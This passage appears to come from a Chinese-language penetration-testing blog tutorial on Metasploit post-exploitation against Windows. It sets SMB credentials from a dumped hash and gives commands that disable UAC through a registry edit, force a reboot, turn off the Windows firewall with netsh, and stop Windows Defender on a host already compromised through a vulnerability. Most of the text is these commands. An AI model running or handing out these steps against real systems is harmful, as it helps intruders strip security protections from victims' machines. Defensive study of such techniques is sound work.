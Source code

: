 配置参数：

```
set smbpass hashdump(得到的hash值）

set smbuser guest

```

利用之前的最高shell关掉UAC(用户账户控制），执行如下两条命令

```
 cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft \Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f 

 cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft \Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f 

//在shell的窗口下执行，不是meterpreter命令符下
参数说明
ADD 添加一个注册表项
-v 创建键值
-t 键值类型
-d 键值的值

```

重启使注册表内容生效

```
shutdown /r /t 0

```

run拿到shell

#### <a id="_123"/>关闭防火墙

前提：已经通过漏洞拿到了目标主机的管理员权限的shell.

使用如下命令关闭防火墙

```
shell

netsh advfirewall set allprofiles state off

```

查看一下，关闭成功<br/>
<img src="https://img-blog.csdnimg.cn/20200720113501635.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/>

进一步结束`Windefend`

```
 net stop windefend  //netstop 用来结束windows的服务

```
